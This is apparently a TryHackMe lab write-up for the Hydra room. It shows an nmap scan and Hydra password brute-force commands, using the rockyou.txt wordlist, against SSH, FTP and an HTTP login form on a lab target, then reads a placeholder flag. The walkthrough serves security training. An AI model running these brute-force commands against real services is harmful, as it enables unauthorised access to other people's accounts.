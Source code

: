 # Hydra Room - TryHackMe Writeup

## Overview
The Hydra room on TryHackMe teaches how to perform brute-force attacks on SSH, FTP, and HTTP services using the Hydra tool. It focuses on using the right wordlists and understanding login forms.

---

## Objectives / Tasks
- Scan open ports on the target
- Use Hydra to brute-force SSH, FTP, and HTTP login
- Find and submit the final flag

---

## Tools Used
- Nmap
- Hydra
- rockyou.txt wordlist

---

## Walkthrough

### Step 1: Scan open ports
Run an Nmap scan to identify services.
bash
nmap -sC -sV -oN nmap.txt <target_ip>

Result:

22/tcp (SSH)

21/tcp (FTP)

80/tcp (HTTP)



Step 2: Brute-force SSH with Hydra

hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://<target_ip>



Step 3: Brute-force FTP with Hydra

hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target_ip>



Step 4: Brute-force HTTP Login

hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login:username=^USER^&password=^PASS^:Invalid username or password"



Step 5: Capture the flag

After successful login, search the home directory or web app.

cat /home/admin/user.txt



Flag

THM{example-flag-value}

## References  
- [Hydra GitHub](https://github.com/vanhauser-thc/thc-hydra)  
- [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat)  
- [TryHackMe Hydra Room](https://tryhackme.com/room/hydra)  
- [Nmap Documentation](https://nmap.org/book/man.html)  
- [Hydra Kali Docs](https://tools.kali.org/password-attacks/hydra)









